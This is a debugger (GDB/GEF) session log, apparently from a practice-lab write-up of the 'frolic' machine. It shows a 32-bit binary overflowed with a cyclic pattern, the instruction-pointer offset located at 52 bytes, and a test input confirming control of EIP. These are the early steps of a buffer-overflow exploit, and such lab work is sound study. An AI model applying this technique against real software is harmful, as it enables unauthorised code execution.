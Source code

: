 ```bash
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".

Program received signal SIGSEGV, Segmentation fault.
0x6161616e in ?? ()
[ Legend: Modified register | Code | Heap | Stack | String ]

───────registers
$eax   : 0x64
$ebx   : 0xffffcb00  →  0x00000002
$ecx   : 0x0
$edx   : 0xf7fc0500  →  0xf7fc0500  →  [loop detected]
$esp   : 0xffffcad0  →  "oaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa"
$ebp   : 0x6161616d ("maaa"?)
$esi   : 0xffffcbb4  →  0xffffcdd6  →  "/home/ghost/Documents/hacking/tj-null-boxes/frolic[...]"
$edi   : 0xf7ffcb80  →  0x00000000
$eip   : 0x6161616e ("naaa"?)
$eflags: [zero carry PARITY adjust SIGN trap INTERRUPT direction overflow RESUME virtualx86 identification]
$cs: 0x23 $ss: 0x2b $ds: 0x2b $es: 0x2b $fs: 0x00 $gs: 0x63

──────stack
0xffffcad0│+0x0000: "oaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa"       ← $esp
0xffffcad4│+0x0004: "paaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa"
0xffffcad8│+0x0008: "qaaaraaasaaataaauaaavaaawaaaxaaayaaa"
0xffffcadc│+0x000c: "raaasaaataaauaaavaaawaaaxaaayaaa"
0xffffcae0│+0x0010: "saaataaauaaavaaawaaaxaaayaaa"
0xffffcae4│+0x0014: "taaauaaavaaawaaaxaaayaaa"
0xffffcae8│+0x0018: "uaaavaaawaaaxaaayaaa"
0xffffcaec│+0x001c: "vaaawaaaxaaayaaa"

────────code:x86:32
[!] Cannot disassemble from $PC
[!] Cannot access memory at address 0x6161616e

gef➤  pattern offset 0x6161616e
[+] Searching for '6e616161'/'6161616e' with period=4
[+] Found at offset 52 (little-endian search) likely

gef➤  r 'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAd3adc0d3'
Starting program: /home/ghost/Documents/hacking/tj-null-boxes/frolic/rop 'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAd3adc0d3'
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".

Program received signal SIGSEGV, Segmentation fault.
0x64613364 in ?? ()
[ Legend: Modified register | Code | Heap | Stack | String ]

registers ────
$eax   : 0x3c
$ebx   : 0xffffcb20  →  0x00000002
$ecx   : 0x0
$edx   : 0xf7fc0500  →  0xf7fc0500  →  [loop detected]
$esp   : 0xffffcaf0  →  "c0d3"
$ebp   : 0x41414141 ("AAAA"?)
$esi   : 0xffffcbd4  →  0xffffcdfe  →  "/home/ghost/Documents/hacking/tj-null-boxes/frolic[...]"
$edi   : 0xf7ffcb80  →  0x00000000
$eip   : 0x64613364 ("d3ad"?)
$eflags: [zero carry parity adjust SIGN trap INTERRUPT direction overflow RESUME virtualx86 identification]
$cs: 0x23 $ss: 0x2b $ds: 0x2b $es: 0x2b $fs: 0x00 $gs: 0x63

```